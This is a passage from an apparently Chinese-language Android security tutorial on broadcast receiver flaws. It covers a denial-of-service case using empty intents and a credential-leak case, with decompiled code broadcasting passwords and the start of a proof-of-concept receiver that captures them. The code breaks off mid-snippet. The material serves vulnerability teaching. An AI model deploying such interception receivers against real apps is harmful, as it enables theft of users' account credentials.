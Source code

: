 ``` java
	
	
	
	String cmd  = jsobject.toString();
	
	b.putByteArray("message", cmd.getBytes("UTF-8"));
	
}
catch (Exception e)
{

	// TODO Auto-generated catch block

	e.printStackTrace();
}
```
### 案例2：拒绝服务
尝试向广播接收器发送不完整的intent 比如空action 或者空extra。

### 案例3：敏感信息泄漏
某应用利用广播传输用户账号密码  
![](../pictures/androidbr6.jpg)  

隐式意图发送敏感信息
``` java
public class ServerService extends Service {
	// ...
	private void d() {
		// ...
		Intent v1 = new Intent();
		v1.setAction("com.sample.action.server_running");
		v1.putExtra("local_ip", v0.h);
		v1.putExtra("port", v0.i);
		v1.putExtra("code", v0.g);
		v1.putExtra("connected", v0.s);
		v1.putExtra("pwd_predefined", v0.r);
		if (!TextUtils.isEmpty(v0.t)) {
		  v1.putExtra("connected_usr", v0.t);
		}
	}
	this.sendBroadcast(v1);
}

接收POC
public class BcReceiv extends BroadcastReceiver {
	@Override
	public void onReceive(Context context, Intent intent){
	
		String s = null;
		if (intent.getAction().equals("com.sample.action.server_running")){
		  String pwd = intent.getStringExtra("connected");
```